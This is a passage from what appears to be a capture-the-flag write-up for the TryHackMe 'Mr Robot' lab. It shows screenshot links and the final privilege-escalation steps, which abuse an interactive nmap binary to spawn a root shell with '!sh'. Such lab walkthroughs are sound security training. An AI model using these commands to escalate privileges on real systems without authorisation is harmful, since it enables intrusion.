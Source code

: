 ![nmap-in-search-result](./images/THM-MrRobot-CTF-Screenshots/fileSearchResult.png)

![nmap-GTFOBins](./images/THM-MrRobot-CTF-Screenshots/nmap_on_GTFOBins.png)

### Box rooted!

```bash
/usr/local/bin/nmap --interactive
```
```bash
!sh
```
```bash
whoami
```
